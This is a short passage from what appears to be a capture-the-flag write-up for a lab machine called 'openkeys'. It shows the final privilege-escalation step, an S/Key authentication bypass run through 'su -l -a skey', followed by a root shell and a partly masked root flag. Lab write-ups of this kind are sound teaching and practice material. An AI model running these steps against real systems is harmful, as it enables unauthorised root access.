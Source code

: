 __Second__, run - 
```
$ env -i TERM=vt220 su -l -a skey
otp-md5 99 obsd91335
S/Key Password: EGG LARD GROW HOG DRAG LAIN
openkeys# whoami                                                                
root
```

__Root shell__
```
openkeys# whoami                                               
root
openkeys# root.txt
f3a553b1************************
```